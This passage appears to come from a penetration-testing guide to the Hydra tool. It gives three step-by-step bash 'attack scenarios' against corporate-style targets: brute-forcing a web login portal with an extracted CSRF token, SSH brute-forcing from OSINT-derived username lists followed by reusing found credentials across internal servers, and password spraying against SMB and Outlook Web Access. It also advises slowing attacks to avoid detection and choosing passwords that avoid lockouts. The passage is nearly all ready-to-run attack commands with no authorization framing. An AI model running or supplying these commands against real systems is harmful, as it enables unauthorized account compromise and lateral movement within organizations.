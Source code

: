 ### Real-World Attack Scenarios

#### Scenario 1: Corporate Portal Credential Testing

```bash
# Step 1: Identify the login form (manually or with tools)
firefox https://portal.company.com/login

# Step 2: Analyze the form submission (using browser dev tools)
# Form data: username=admin&password=pass&csrf_token=abc123

# Step 3: Extract a valid CSRF token
curl -s https://portal.company.com/login | grep -o 'csrf_token" value="[^"]*' | cut -d'"' -f3

# Step 4: Create the Hydra command with the token and proper failure message
hydra -l admin@company.com -P targeted_wordlist.txt 192.168.1.100 https-post-form "/login:username=^USER^&password=^PASS^&csrf_token=abc123:Invalid username or password:H=Cookie: session=xyz123"

# Step 5: Slow the attack to avoid detection
hydra -l admin@company.com -P targeted_wordlist.txt -t 1 -c 10 192.168.1.100 https-post-form "/login:username=^USER^&password=^PASS^&csrf_token=abc123:Invalid username or password:H=Cookie: session=xyz123"
```

#### Scenario 2: Internal Network SSH Access

```bash
# Step 1: Generate a list of potential usernames from OSINT
cat first_names.txt last_names.txt > users.txt

# Step 2: Create username variations based on company email format
sed -e 's/\(.*\)/\1/' -e 's/\(.*\)/\1.last/' -e 's/\(.*\)/\1_last/' users.txt > formatted_users.txt

# Step 3: Perform a controlled SSH attack
hydra -L formatted_users.txt -P company_specific.txt -t 4 -f 192.168.1.100 ssh

# Step 4: Use the successful credential to target other systems
for ip in $(cat internal_servers.txt); do
    hydra -l found_username -p found_password $ip ssh
done
```

#### Scenario 3: Password Spraying Against Multiple Services

```bash
# Step 1: Create a list of common but non-lockout-triggering passwords
echo "Spring2023!" > common_passes.txt
echo "Winter2023!" >> common_passes.txt
echo "Company2023!" >> common_passes.txt

# Step 2: Create a list of usernames from company directory
# (obtained through OSINT or previous access)

# Step 3: Perform slow password spraying across services
hydra -L users.txt -P common_passes.txt -t 1 -c 30 192.168.1.100 smb
hydra -L users.txt -P common_passes.txt -t 1 -c 30 192.168.1.100 http-post-form "/owa/auth.owa:username=^USER^&password=^PASS^&destination=https://mail.company.com/owa:Authentication failed"
```
